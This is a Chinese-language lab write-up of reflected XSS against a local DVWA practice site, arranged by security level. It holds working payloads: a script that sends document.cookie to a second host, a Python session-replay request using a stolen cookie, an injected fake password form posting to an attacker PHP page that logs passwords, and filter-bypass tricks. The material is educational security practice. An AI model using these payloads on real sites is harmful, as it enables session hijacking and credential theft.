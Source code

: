 [TOC]

# 反射型XSS

反射型XSS是最常用的，使用最广的一种方式。通过给受害者发送有恶意脚本代码参数的URL，当URL被打开时，特有的恶意代码参数被HTML解析、执行。



## low

低安全级别攻击

页面

![r_low3](img/r_low3.png)

源代码

![r_low0](img/r_low0.png)

显然，源程序中没有对用户输入进行任何过滤，直接进行解析显示，因此在输入框中输入以下代码，请求的链接为`http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22hacked%22%29%3B%3C%2Fscript%3E#`，这是一个get型请求，可以看到用户输入附加在url的name后，反射回的页面会执行下面的代码。

```html
<script>alert("hacked");</script>
```

![r_low4](img/r_low4.png)

链接为

```
http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22hack%22%29%3B%3C%2Fscript%3E#
```



### cookie劫持

在输入框中输入：

```javascript
<script>
    var img = document.createElement("img");
    img.src = "http://csrf.localhost/log?" + escape(document.cookie);//img的src不重要
    alert(document.cookie);
</script>
```

这段代码在页面中插入了一张看不见的图片，同时把document.cookie作为参数发送给了远程服务器。

实际上`http://csrf.localhost/log?`并不一定要存在，`http://csrf.localhost`要存在(我是在本机运行的网站,配置过程在CSRF攻击中详细说明)，这个请求会在日志 `/var/log/apache2`中留下记录

![r_low2](img/r_low2.png)

也就是完成了一个简单的窃取用户Cookie，接下来可以利用窃取的cookie为所欲为，免密登陆用户账号，获取用户信息，例如使用python：

```python
import requests

header = {
    'Host': 'dvwa.localhost',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'X-Requested-With': 'XMLHttpRequest',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,la;q=0.6',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://dvwa.localhost',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36',
    'Connection': 'keep-alive',
    'Cookie': 'PHPSESSID=3oktmgk7tr1cuu6bddq8cae632; security=low',	//获取的用户cookie

}



url = "http://dvwa.localhost/index.php";


response = requests.post(url, headers = header)
print(response.text)
print(response.status_code)
```



### XSS钓鱼

大多数网站中“修改用户密码”的功能中，在提交新密码前，会要求用户输入旧密码，但这个旧密码一般是攻击者不知道的。为了获取密码，攻击者可以将XSS与“钓鱼”相结合。

思路其实很简单，利用js在当前页面上“伪造一个登陆框”，当用户在登录框中输入用户名与密码后，其密码将会被发送到攻击者的服务器上。

感觉更适合存储型XSS。

伪造输入框的内容

```javascript
<script >

    var parent=document.getElementById("main_body");
    var para=document.createElement("p");
    
    var node=document.createTextNode("原密码:");
    para.appendChild(node);
    parent.appendChild(para);
    
    var form0 = document.createElement("form");   
    form0.method = 'post';
    form0.action = 'http://csrf.localhost/hack.php';		//提交到攻击页面
    parent.appendChild(form0);
    
    var newElement = document.createElement("input");
    newElement.name = "oldpassword";
    newElement.type = "text";
    form0.appendChild(newElement);

   var newElement = document.createElement("input");

   newElement.type = "submit";
   form0.appendChild(newElement);


</script>
```

用户输入以上代码（一般是诱使用户点击name字段为上述代码的链接，实际会伪装这个链接）

![XSS1](img/XSS1.png)

输入后，xss反射，浏览器执行上述代码，添加一个form表单

![XSS2](img/XSS2.png)

钓鱼的demo攻击代码已经被注入，用户输入密码，点击提交，会提交到`hack.php`，并将密码保存到攻击者的服务器

```php
<?php

      $user=$_POST["oldpassword"]; //获取用户名

      $passtxt=fopen("passtxt.txt","a");  //打开文件
      fwrite($passtxt,"User:".$user."\n");  //写入文件
      fclose($passtxt);
      header("http://dvwa.localhost/vulnerabilities/xss_r/?name=#");  //转跳到正常页面 
     ?>
```



## medium

中级的代码对输入中的<script>替换成了空字符，但依然可以进行攻击

![r_medium0](img/r_medium0.png)



* 双写<script>

```javascript
<sc<script>ript>alert("hack")</script>
```

* 大小写混写

```javascript
<ScrIpt>alert("hack")</scRipT>
```



## high

源代码中使用正则表达式对输入进行过滤

![r_medium1](img/r_medium1.png)

使得双写、大小写混写不再有效，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```
<img src=1 onerror=alert("hack")>
```

